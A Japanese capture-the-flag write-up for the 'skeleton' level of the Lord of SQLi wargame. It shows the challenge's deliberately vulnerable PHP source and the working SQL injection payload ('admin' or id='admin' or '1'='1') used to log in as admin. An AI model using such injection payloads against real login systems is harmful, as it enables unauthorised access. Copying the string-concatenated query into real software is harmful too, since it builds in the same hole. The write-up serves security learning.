 # troll

## answer

```
https://los.eagle-jump.org/skeleton_8d9cbfe1efbd44cfbbdc63fa605e5f1b.php?pw=admin%27%20or%20id=%27admin%27%20or%20%271%27=%271
```

## problem

```
query : select id from prob_skeleton where id='guest' and pw='' and 1=0

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

## memo

試しに、

```
https://los.eagle-jump.org/skeleton_8d9cbfe1efbd44cfbbdc63fa605e5f1b.php?pw=1
```

とすると

```
query : select id from prob_skeleton where id='guest' and pw='1' and 1=0
```

となった。

コードを読んでいく。

```
if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
```

クリア条件は

```
if($result['id'] == 'admin') solve("skeleton"); 
```

なので、無理矢理idをadminできないかと適当にやってたら、

```
https://los.eagle-jump.org/skeleton_8d9cbfe1efbd44cfbbdc63fa605e5f1b.php?pw=admin%27%20or%20id=%27admin%27%20or%20%271%27=%271
```

```
query : select id from prob_skeleton where id='guest' and pw='admin' or id='admin' or '1'='1' and 1=0

SKELETON Clear!
```

解けた。


```
?pw=admin' or id='admin' or '1'='1
```


## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [エラー制御演算子 | php manual](https://www.php.net/manual/ja/language.operators.errorcontrol.php)

- [ereg | php manual](https://www.php.net/manual/ja/function.ereg.php)

- [文字列検索での大文字小文字の区別 | mysql manual](https://dev.mysql.com/doc/refman/5.6/ja/case-sensitivity.html)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)
